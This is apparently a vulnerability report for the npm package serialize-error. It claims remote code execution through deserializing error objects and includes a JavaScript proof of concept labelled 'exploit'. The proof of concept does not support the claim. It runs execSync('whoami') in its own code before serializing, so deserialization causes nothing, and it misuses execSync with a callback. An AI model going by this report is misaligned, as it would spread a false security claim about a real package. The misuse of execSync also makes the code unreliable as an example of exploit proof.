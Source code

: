 ## Description

Serialize-error is an npm package to Serialize/deserialize an error into a plain object

This package is vulnerable to Remote Code Execution due to a deserialization vulnerability which occur when unmarshalling a serialised error object 

## Proof of Concept

```
const {serializeError, deserializeError} = require('serialize-error');

//exploit

let code_exec = () => {
  let exploit=require('child_process').execSync('whoami', (error, stdout, stderr)=> {
      console.log(''+stdout)
    });
  return exploit;
}


const error = new Error(code_exec());

const serialized = serializeError(error)

const deserialized = deserializeError(serialized);

console.log('\x1b[35m'+deserialized)


```
